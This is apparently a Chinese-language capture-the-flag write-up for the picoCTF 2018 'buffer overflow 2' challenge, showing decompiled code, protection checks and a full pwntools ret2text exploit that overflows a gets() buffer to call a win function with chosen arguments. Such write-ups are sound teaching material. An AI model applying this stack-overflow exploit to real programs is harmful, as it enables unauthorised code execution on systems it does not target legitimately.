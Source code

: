 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 buffer overflow 2
date: 2022-4-6 15:20:14
permalink: /pages/2e1547494524d1a7
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 buffer overflow 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_buffer_overflow_2/PicoCTF_2018_buffer_overflow_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

vuln函数如下：

```c
int vuln()
{
  char s; // [esp+Ch] [ebp-6Ch]

  gets(&s);
  return puts(&s);
}
```

win函数如下：

```c
char *__cdecl win(int a1, int a2)
{
  char *result; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  result = fgets(&s, 64, stream);
  if ( a1 == -559038737 && a2 == -559038242 )
    result = (char *)printf(&s);
  return result;
}
```

## 思路分析

1. 目前信息：

   - vuln函数存在任意长度的溢出点
   - win函数可打印flag
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位ret2text

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/picoctf_2018_buffer_overflow_2/PicoCTF_2018_buffer_overflow_2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 25738)
elf = ELF(pwnfile)
padding = 0x6c+4
win_addr = elf.symbols['win']
exit_addr = elf.plt['exit']
a1 = 0xDEADBEEF #补码形式
a2 = 0xDEADC0DE #补码形式
payload = flat(['a'*padding, win_addr, exit_addr, a1, a2])
io.sendlineafter('Please enter your string: \n', payload)
io.recvuntil('\n')
print(io.recv())
```

